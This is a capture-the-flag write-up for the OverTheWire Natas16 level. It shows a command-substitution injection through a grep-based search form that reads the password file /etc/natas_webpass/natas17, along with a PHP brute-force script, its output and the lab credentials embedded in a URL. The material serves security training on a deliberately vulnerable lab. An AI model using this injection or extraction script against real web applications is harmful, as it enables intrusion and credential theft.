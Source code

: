 # Overthewire CTF wargame
http://overthewire.org/wargames

# Natas16 
http://overthewire.org/wargames/natas/natas17.html

## Notes

1.  The aim of this level is to read the password in the file `/etc/natas_webpass/natas17`

1.	This level is like previous levels (9, 10) where we have a search form to grep contents from `dictionary.txt`. But this time they've made it more challenging:

		For security reasons, we now filter even more on certain characters

2.	Viewing the source reveals what tricks they are using:

		if (preg_match('/[;|&`\'"]/',$key)) {
		    print "Input contains an illegal character!";
		} else {
		    passthru("grep -i \"$key\" dictionary.txt");
		}
    
3.  To break out of the inner quotes for key, we can have bash evaluate an expression for us, like so:

		$(grep a /etc/natas_webpass/natas17)

4.  If the password contains `a` it is returned by `grep`, and since that result don't match anything in a dictionary, the result is empty.

5. As the grep above won't tell us _where_ in the password `a` is, we can instead use regex `.` to brute force the password, starting with `a...............................`:

		$(grep a............................... /etc/natas_webpass/natas17)
    
6. Brute forcing is of course easier with a script (here using simple html dom lib):

		<?php
		    include('simple_html_dom.php');

		    function find($key) {
		        $url = 'http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org/?needle=$(grep%20' . $key . '%20/etc/natas_webpass/natas17)&submit=Search';
		        $html = file_get_html($url);
		        return (strlen($html->find('pre')[0]->plaintext) < 10);
		    }

		    $key = "................................";

		    for ($i = 0; $i < 32; $i++) {
		        foreach(array_merge(range(0, 9), range('A', 'Z'), range('a', 'z')) as $c) {
		            $key[$i] = $c;
		            if (find($key)) {
		                print $key . "<br>";
		                break;  
		            }
		        }
		    }
		?>
    
7. This gives us the following result, ending with the password for `natas17`:

		8...............................
		8P..............................
		8Ps.............................
		8Ps3............................
		8Ps3H...........................
		8Ps3H0..........................
		8Ps3H0G.........................
		8Ps3H0GW........................
		8Ps3H0GWb.......................
		8Ps3H0GWbn......................
		8Ps3H0GWbn5.....................
		8Ps3H0GWbn5r....................
		8Ps3H0GWbn5rd...................
		8Ps3H0GWbn5rd9..................
		8Ps3H0GWbn5rd9S.................
		8Ps3H0GWbn5rd9S7................
		8Ps3H0GWbn5rd9S7G...............
		8Ps3H0GWbn5rd9S7Gm..............
		8Ps3H0GWbn5rd9S7GmA.............
		8Ps3H0GWbn5rd9S7GmAd............
		8Ps3H0GWbn5rd9S7GmAdg...........
		8Ps3H0GWbn5rd9S7GmAdgQ..........
		8Ps3H0GWbn5rd9S7GmAdgQN.........
		8Ps3H0GWbn5rd9S7GmAdgQNd........
		8Ps3H0GWbn5rd9S7GmAdgQNdk.......
		8Ps3H0GWbn5rd9S7GmAdgQNdkh......
		8Ps3H0GWbn5rd9S7GmAdgQNdkhP.....
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPk....
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq...
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9..
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c.
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
